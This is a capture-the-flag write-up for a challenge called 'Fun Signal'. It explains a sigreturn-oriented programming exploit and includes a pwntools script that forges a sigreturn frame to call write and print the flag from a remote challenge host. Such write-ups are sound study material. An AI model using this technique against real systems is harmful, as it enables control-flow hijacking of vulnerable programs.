

# Fun Signal
#### wparks

We are given a standard pwnable setup of a binary and remote address and port.
Throwing the binary into hopper shows a very short program.



It makes two syscalls. The first reads information onto the stack, and the second
calls sigreturn. While building our own sigreturn frames looks like it could be
a little complex, pwntools takes care of this for us easily.

Now that we have arbitrary control, we need to figure out what to do. The provided
binary has a fake flag in the binary, so printing it out should suffice, using the
write syscall. Pwntools makes this really easy.

```python
from pwn import *

#r = remote("localhost", 2015)
r = remote("163.172.176.29", 9034)
frame = SigreturnFrame(arch='amd64')
frame.rax = 1 #syscall number
frame.rdi = 1 #syscall FD
frame.rsi = 0x0000000010000023 #buff addr
frame.rdx = 0x50 #length
frame.rip = 0x10000012 #syscall inst addr
frame.rsp = 0
exp = str(frame)
r.send(exp)
r.interactive()

```
